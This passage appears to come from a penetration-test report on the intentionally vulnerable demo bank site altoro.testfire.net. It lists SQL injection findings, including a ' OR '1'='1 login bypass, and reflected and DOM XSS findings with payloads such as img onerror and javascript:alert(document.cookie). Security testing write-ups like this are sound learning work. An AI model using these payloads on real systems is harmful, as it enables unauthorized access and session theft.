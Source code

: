 		the default username. Also, use the ' OR '1'='1 SQL query to bypass
		the password
	- After hitting the login button we sign in as administrators 
	![[Pasted image 20250129233651.png]]

- 4.1.3- SQL Injection
	- URL : http://altoro.testfire.net/sendFeedback
	- Risk : High
	- Confidence : Medium
	 - Attack : comments.txt' AND '1'='1' -- 
	 - Description : SQL injection may be possible
		 - ![[Pasted image 20250201065423.png]]
		 - ![[Pasted image 20250201065432.png]]

- sq l injection
	 - ![[Pasted image 20250201115310.png]]
	 - ![[Pasted image 20250201115425.png]]
---
### 4.2. XXS :

- 4.2.1- Cross Site Scripting (Reflected)
	-  URL : http://altoro.testfire.net/search.jsp?query=%3C%2Fp%3E%3CscrIpt%3Ealert%281%29%3B%3C%2FscRipt%3E%3Cp%3E
	- Risk : High
	- Confidence : Medium
	- Attack : <script>alert("Mohamed");</script>
	- Description : Cross-site Scripting (XSS) is an attack where malicious code, often in HTML/JavaScript, is injected into a user's browser, running within the security context of a trusted site. This can hijack accounts, redirect browsers, or display fake content, breaking user-website trust. XSS comes in three flavors: non-persistent (malicious links/forms), persistent (stored malicious content like forum posts), and DOM-based (client-side script manipulation). Each exploits vulnerabilities to execute harmful scripts without the user's knowledge
	![[Pasted image 20250127212805.png]]

- 4.2.2- Stored XSS in innerHTML sink using source location.search
	-   URL : http://altoro.testfire.net/search.jsp?query=%3Cimg+src%3Dx+onerror%3Dalert%28%27XSS%27%29%3E
	- Risk : High
	- Confidence : Medium
	- Attack : <img src=x onerror=alert('XSS')>
	![[Pasted image 20250128011507.png]]

- 4.2.3- DOM XSS in jQuery anchor href attribute sink using location.search source
	- URL : http://altoro.testfire.net/search.jsp?query=%3Cimg+src%3Dx+onerror%3Dalert%28%27XSS%27%29%3E
	- Risk : High
	- Confidence : Medium
	- Attack : javascript:alert(document.cookie)
	![[Pasted image 20250128011407.png]]
